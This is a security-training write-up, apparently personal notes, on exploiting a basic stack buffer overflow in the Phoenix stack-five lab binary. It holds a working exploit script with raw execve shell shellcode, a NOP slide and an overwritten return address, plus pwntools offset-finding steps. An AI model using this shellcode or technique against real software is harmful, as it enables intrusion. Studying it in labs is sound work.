 # Stack Smashing

## Basic stack overflow with executable stack, no protections

### Overview

![Phoenix stack 5 example](https://lh6.googleusercontent.com/Z7A-yxH5Ws3mnjYADuOI8JKYgkf-yk\_kt9BukMwhIo52T8iDWhLpFCB5EAKFUcW0VSKezL7GZ-ASFCR\_L5a3BpfIy2aFiH0O6PppkIY6RgKo4pmBXl6wFaKl2opXDdV7AlrU\_v-HLr-6fKStVn\_mDg)



What you need to do:

1. Find the address of the buffer on the stack
2. Find the address of the EIP on the stack, that was pushed for the RET instruction
3. Subtract #1 from #2. That’s how much padding space you have
4. Fill the padding space with random padding
5. After the padding space, overwrite the EIP which was saved on the stack. It should point to the NOP slide in #6. Put it in the middle of the NOP slide due to differences in the stack address space (view section “Stack address changes”)
6. After the overwritten EIP, put a NOP slide. You can be generous with this, like 128 bytes for example. But making it ridiculously large may break the program.
7. After the NOP slide, put your shellcode

_Note: You can also put the shellcode inside the buffer, but the above method is better, since then you won't be limited by the buffer size._

### **Finding out how many bytes the overflow needs to be**

You need to know how many bytes you need to overflow to get to the saved return pointer. You can use the cyclic generator from pwntools to easily identify it.

You can generate the overflow like this (in ascii in this case, but you can also leave them as bytes for exploitation):

```
import pwn

number_of_bytes = 500
generator = pwn.util.cyclic.cyclic_gen()
overflow = generator.get(number_of_bytes).decode('ascii')
```

Alternatively, you can use the [pwntools command-line program](https://docs.pwntools.com/en/stable/commandline.html):

```
pwn cyclic 500
```

Use the generated overflow to cause a segfault in the application. Then look at dmesg:

```
sudo dmesg
[14515.106389] target[9460]: segfault at 61616b62 ip 0000000061616b62 sp 00000000ff9cd5f0 error 14
```

You can see that the instruction pointer was 61616b62, which corresponds to the ascii text 'aakb'. Also, it's in little endian, so it corresponds to 'bkaa' in the cyclic generator's output.&#x20;

Echo out the overflow ascii and find out where the 'bkaa' string occurs in the cyclic output. That's the place where you need to put the address you want to overflow the saved return pointer with. The amount of bytes up until that string is the amount of bytes you need to get to the return pointer on the stack from the initial overflow location.

### **Exploitation**

Here’s the script I used to generate the input file for the phoenix stack5 challenge:

```
from __future__ import print_function

override_length = 136

padding = 'A' * override_length
return_address = "\x00\x00\x7f\xff\xff\xff\xe5\x40"[::-1]
nop_slide = "\x90" * 128
shell_code = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

payload = padding + return_address + nop_slide + shell_code

with open('/home/user/input.txt', 'w') as f:
            print(payload, file=f)

```

Remember to cat the input in like this:

```
(cat ~/input.txt; cat) | /opt/phoenix/amd64/stack-five
```

_Note: In hindsight, it would be better and easier to do this with **pwntools**._

### **Stack address changes**&#x20;

_Note: This is not a real issue when you get to more advanced exploitation methods, because you don't ever provide absolute stack addresses anyways due to ASLR._

When you use a debugger like GDB or radare2, then that debugger will put environment variables on the stack. This will make the address space move around, and when running the program normally, the absolute addresses you found in your debugger will no longer be entirely correct.&#x20;

Also, argv will be smaller if you call the program with the full path instead of a relative path (‘./program’ is smaller than ‘/path/to/program’).&#x20;

Additionally, the current working directory is also on the stack, so different working directories will result in different addresses.

This is one reason why NOP slides are important. Note that the addresses relative to the base pointer should still stay the same.

So keep in mind - use a decent-sized nopslide and put the EIP/RIP into the middle of that nopslide. That way the address changes won’t mess up your exploit so easily. However, if you add too many, then the process will crash (probably because the stack runs out of space?) When I added 700 bytes of NOPs it was fine, but when I added 7000, then that was trouble.

#### **Comparing stack changes in tools**

I made a test file which shows differences in an address on the stack for different execution environments (This was run on the Exploit Education Phoenix machine. The GDB is modded there. Probably that’s why radare2 is better in this case)

Also, I didn’t try to simply attach the debugger. Maybe then the address wouldn’t change?

| **Execution type**                                                                           | **Path to executable**                  | **Address**    |
| -------------------------------------------------------------------------------------------- | --------------------------------------- | -------------- |
| Normal                                                                                       | ./catch-exec-test                       | 0x7fffffffe4b0 |
| Normal                                                                                       | /home/user/stack/stack5/catch-exec-test | 0x7fffffffe470 |
| Radare2                                                                                      | ./catch-exec-test                       | 0x7fffffffe490 |
| Radare2                                                                                      | /home/user/stack/stack5/catch-exec-test | 0x7fffffffe460 |
| Gdb with environment variables                                                               | ./catch-exec-test 0x7fffffffe460        | 0x7fffffffe460 |
| Gdb without 2 environment variables unset                                                    | ./catch-exec-test 0x7fffffffe480        | 0x7fffffffe480 |
| Gdb with "catch exe" (another subprocess started using execve with no environment variables) | ./catch-exec-test                       | 0x7fffffffed60 |

\
Conclusion: On the Phoenix machine, Radare2 is the most accurate when you specify the full path. It was only off by 0x10.

#### **Gdb without stack address changes**

These lines should give the same environment variables as during normal execution. Run these inside gdb.

```
unset env LINES
unset env COLUMNS
set env _ /path/to/executable
```

_Note: This didn’t work with the modded GDB of Phoenix_

#### Radare2 without stack address changes

Radare2 has the configuration `clearenv=true` in the rr2 file, but it didn’t result in the same address for me as running normally. So, it doesn’t seem to work.

#### **FixEnv script**

This script may help you:

{% embed url="https://github.com/hellman/fixenv" %}
fixenv
{% endembed %}

It will keep the locations the same between running the program with GDB and running it normally. Didn’t work with radare2 as of july 2020. Doesn’t work with the modded GDB of Phoenix. Doesn’t work with ASLR enabled.

### Shellcode corruption

If your shellcode is on the stack, and your shellcode also pushes stuff onto the stack, then if the ESP is located where your shellcode is at, then your shellcode will corrupt itself by pushing data into its own code.

This is why you shouldn’t put your shellcode too close to the EIP, instead, you should have a NOP slide between them. Because that’s also where the stack pointer is. Also, remember that the stack grows downward, so putting the shellcode after the overwritten EIP (up higher) is a good idea.

LiveOverflow video discussing this:

{% embed url="https://www.youtube.com/watch?v=Xvh8FkczNUc" %}

